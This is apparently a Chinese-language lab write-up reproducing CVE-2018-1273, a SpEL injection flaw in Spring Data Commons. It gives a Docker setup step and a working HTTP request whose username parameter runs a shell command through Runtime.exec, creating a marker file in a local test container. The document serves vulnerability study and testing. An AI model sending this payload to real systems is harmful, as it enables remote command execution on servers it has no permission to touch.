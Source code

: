# Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，存在一处SpEL表达式注入漏洞，攻击者可以注入恶意SpEL表达式以执行任意命令。

参考链接：

- https://pivotal.io/security/cve-2018-1273
- https://xz.aliyun.com/t/2269
- https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483666&idx=1&sn=91e3b2aab354c55e0677895c02fb068c

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8080/user`，将可以看到一个用户注册页面。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![](1.png)